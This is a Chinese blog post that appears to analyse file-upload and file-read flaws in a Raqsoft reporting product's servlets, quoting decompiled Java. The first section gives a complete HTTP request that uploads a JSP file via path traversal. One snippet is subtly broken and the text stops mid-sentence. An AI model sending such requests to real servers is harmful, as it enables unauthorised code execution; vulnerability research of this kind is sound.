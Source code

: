 #  某报表漏洞分析   
原创 Mert  韭要学JAVA安全   2025-05-11 13:40  
  
   
1.dataSphereServlet文件上传漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkoicjkLpdC2OEcuD93sMD4MHsoePmfGzjpVqT2NKJdiablziaQjl0GwMWI0qJqVFUFJOdue90BoOh8Q/640?wx_fmt=png&from=appmsg "")  
  
server-name里面有对应的类 进入 com.raqsoft.guide.web.DataSphereServlet 进入该类  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkoicjkLpdC2OEcuD93sMD4MOITAXjsib5SXNBoynIeekjkJ8Ogrt3pqT3KbOiaYoaLF1tP6knP5aZFQ/640?wx_fmt=png&from=appmsg "")  
  
action=38时，代码仅获取文件名并保存，未验证文件类型  
```
Upload upload = new Upload(this.getServletConfig(), request,response);
String upName = upload.getFileName(0);path = upload.getParameter("path");fm.write(upName, Consts.getStreamBytes(upload.getByteArrayInputStream(0)));
```  
  
然后通过通过getFilePath方法拼接路径  
```
数据包:
POST /servlet/dataSphereServlet?action=38 HTTP/1.1
Host: 0.0.0.0
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 388
Content-Type: multipart/form-data; boundary=eac629ee4641cb0fe10596fba5e0c5d9

--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="openGrpxFile"; filename="test.jsp"
Content-Type: text/plain

<% out.println("test"); %>
--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="path"

../../../
--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="saveServer"
```  
  
2.InputServlet文件上传  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkoicjkLpdC2OEcuD93sMD4Mic1eqcohrm8yjoj9nES9KHttp4FeiaOlYrPMNt191SSjgDBN96ESCEpQ/640?wx_fmt=png&from=appmsg "")  
  
进入InputServlet类里面   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkoicjkLpdC2OEcuD93sMD4MjzBf38DRbP1V8E6uqCon3iacWEQ5WZ0VsicM5Hh1MMtTaIYVqlt5iawJg/640?wx_fmt=png&from=appmsg "")  
  
跟进UploadFile方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkoicjkLpdC2OEcuD93sMD4M05aCEliaLDsLTFibuZP41xhGcTpMb4XYyF2ia6MHpnV4Etib5ExcnoDDbg/640?wx_fmt=png&from=appmsg "")  
```
核心代码
Upload upload = new Upload(servletConfig, request, response);
int upsize = Integer.parseInt(upload.getParameter("upsize"));
int size = upload.getFileSize(0);
if (size > upsize * 1024) {
    throw new Exception("上载文件大小" + (int)Math.ceil((double)size / (double)1024.0F) + "k大于最大限制" + upsize + "k");
}
String upFileName = "";
if (upload.getUploadFileCount() == 1) {
    upFileName = upload.getFileName(0);
}
File f = new File(Config.getCachePath() + "/tmp_" + (new Double(Math.random() * (double)100000.0F)).intValue() + "_" + upFileName);
FileOutputStream fos = null;
try {
    fos = new FileOutputStream(f);
    byte[] b = InputUtils.getStreamBytes(upload.getByteArrayInputStream(0));
    fos.write(b);
    fos.flush();
} finally {
    try {
        fos.close();
    } catch (Exception var31) {
    }
}
InputSessionListener.addFile(request.getSession(), f.getAbsolutePath(), (Object)null);

```  
  
使用Config.getCachePath()获取上传文件的目标路径，然后与文件名拼接成完整路径  
  
upFileName的值由upload.getFileName(0)获取，可以控制上传文件的文件名  
  
3.  
dataSphereServlet文件读取漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkoicjkLpdC2OEcuD93sMD4MRQ9HL6CBic0k3nVMOfgXHpF5KRMW9ic4pEJ6kpZUBVxiaDPdl5kmHnYTg/640?wx_fmt=png&from=appmsg "")  
  
path参数直接来自用户请求，未经过严格过滤  
```
if (!saveServer) {
    s = SaveUtil.readFile(new File(abPath));
}
```  
  
当saveServer为false时，代码会读取并返回文件内容给客户端  
  
4.dataSphereServlet文件读取漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkoicjkLpdC2OEcuD93sMD4M5Xk8Qs4MG9diaU3FEv5N2ibFvsSDk5kS3wtHKvWwcnp5iaEmpVBkDYeiaw/640?wx_fmt=png&from=appmsg "")  
  
进入DownloadFile()方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkoicjkLpdC2OEcuD93sMD4MV7gGaccRvffLSTV3BiaflkQurBF6JvWMTyV0S6Mo9BNxqKGqSdMQcxQ/640?wx_fmt=png&from=appmsg "")  
```
// 获取文件参数
String fileName = request.getParameter("file");
// 根据获取的文件名构造文件对象
File f = new File(Config.getCachePath(), fileName);
// 检查文件是否存在
if (!f.exists()) {
    throw new Exception("Download file is not exist！");
}
// 读取文件内容
FileInputStream fis = new File(Config.getCachePath(), fileName);
byte[] b = InputUtils.getStreamBytes(fis);
fileName参数直接从用户请求中获取，没有对其进行严格
```  
  
  
  
  
